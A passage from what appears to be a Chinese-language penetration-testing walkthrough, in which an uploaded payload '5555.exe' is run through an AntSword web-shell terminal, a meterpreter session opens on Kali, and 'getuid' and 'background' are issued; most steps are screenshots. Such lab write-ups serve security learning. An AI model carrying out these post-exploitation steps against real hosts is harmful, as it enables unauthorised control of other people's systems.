 ![Alt text](image-14.png)   
## 6. 通过蚁剑的虚拟终端，运行上传的 `5555.exe`文件
```shell
 5555.exe
```
![Alt text](image-15.png)   
## 7. 查看kali
![Alt text](image-16.png)   
获得`meterpreter`。   
## 8. 查看当前用户
```shell
 getuid
```
![Alt text](image-17.png)   
将会话保存在后台。   
```shell
 background
```   